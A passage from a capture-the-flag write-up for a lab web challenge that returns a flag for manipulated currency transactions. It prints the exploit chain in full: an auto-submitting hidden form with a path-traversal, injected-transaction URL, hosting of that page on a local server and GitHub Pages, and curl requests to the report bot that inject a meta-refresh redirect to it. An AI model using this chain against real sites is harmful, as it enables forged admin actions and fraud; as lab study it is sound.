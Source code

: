 * Processes transactions from a URL.
* Returns `DYN_FLAG` for currency `FL` if manipulated correctly.


### Exploit Flow

Host exploit HTML (`exploit.html`) somewhere publicly accessible. Locally, you can use a Python server:

```
┌──(kali㉿kali)-[~/blackhat/writeup/cute_csp/src]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.20.0.2 - - [09/Sep/2025 14:02:37] "GET /exploit.html HTTP/1.1" 200 -
```

For the challenge, host it using GitHub Pages:

```
https://furious-05.github.io/cute_css/exploit.html
```

Example `exploit.html`:

```
<!doctype html>
<meta charset="utf-8">
<form id="f" action="http://localhost:5000/admin.php" method="POST">
  <input type="hidden" name="url"
    value="http://localhost:5000/admin.php/../index.php?html=-%20amount%3A%201000000%0A%20%20currency%3A%20ZZZ%0A%20%20op%3A%20BUY%0A-%20amount%3A%201000000%0A%20%20currency%3A%20ZZZ%0A%20%20op%3A%20SELL%0A-%20amount%3A%201%0A%20%20currency%3A%20FL%0A%20%20op%3A%20BUY%0A">
</form>
<script>f.submit()</script>
```

Trigger the bot using report.php:

**Locally:**

```
curl -vv "http://127.0.0.1:5000/report.php?url=http://localhost:5000/index.php?html=%3Cmeta%20http-equiv%3D%22refresh%22%20content%3D%220%3Burl%3Dhttp://172.17.0.1:8000/poc.html%22%3E"
```

**In the lab:**

```
curl -vv "http://twf2zxixy2s-0.playat.flagyard.com/report.php?url=http://localhost:5000/index.php?html=%3Cmeta%20http-equiv%3D%22refresh%22%20content%3D%220%3Burl%3Dhttps%3A%2F%2Ffurious-05.github.io%2Fcute_css%2Fexploit.html%22%3E"

```

**Flow:**

- The bot loads `index.php`.

- The meta refresh redirects it to our hosted` exploit.html`.
